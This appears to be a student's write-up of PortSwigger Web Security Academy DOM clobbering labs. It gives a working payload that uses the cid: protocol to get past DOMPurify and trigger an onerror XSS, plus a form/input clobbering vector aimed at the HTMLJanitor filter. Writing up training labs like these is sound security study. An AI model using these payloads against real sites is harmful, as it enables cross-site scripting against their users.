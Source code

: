 1. find sink:
request:
```
GET /resources/js/loadCommentsWithDomClobbering.js HTTP/1.1
```
response:
```js
if (comment.body) {
    let commentBodyPElement = document.createElement("p");
    commentBodyPElement.innerHTML = DOMPurify.sanitize(comment.body);

    commentSection.appendChild(commentBodyPElement);
}
commentSection.appendChild(document.createElement("p"));

userComments.appendChild(commentSection);
```

payload:
```htm
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert()//">
```

> DOMPurify allows you to use the **cid:** protocol, which does not URL-encode double-quotes. This means you can inject an encoded double-quote that will be decoded at runtime. As a result, the injection described above will cause the defaultAvatar variable to be assigned the clobbered property {avatar: ‘cid:"onerror=alert(1)//’} the next time the page is loaded. 

*tip for the lab: better experiment with different payloads straight at the comment box on site*




# ***2. Lab: Clobbering DOM attributes to bypass HTML filters***
[to the Lab](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)

This lab uses the HTMLJanitor library, which is vulnerable to DOM clobbering. To solve this lab, construct a vector that bypasses the filter and uses DOM clobbering to inject a vector that calls the print() function. You may need to use the exploit server in order to make your vector auto-execute in the victim's browser. 

**materials:**
```html
<form onclick=alert(1)><input id=attributes>Click me
```

find attribute to clobber:

```html
// Sanitize attributes
for (var a = 0; a < node.attributes.length; a += 1) {
var attr = node.attributes[a];

if (shouldRejectAttr(attr, allowedAttrs, node)) {
    node.removeAttribute(attr.name);
    // Shift the array to continue looping.
    a = a - 1;
}
}
```
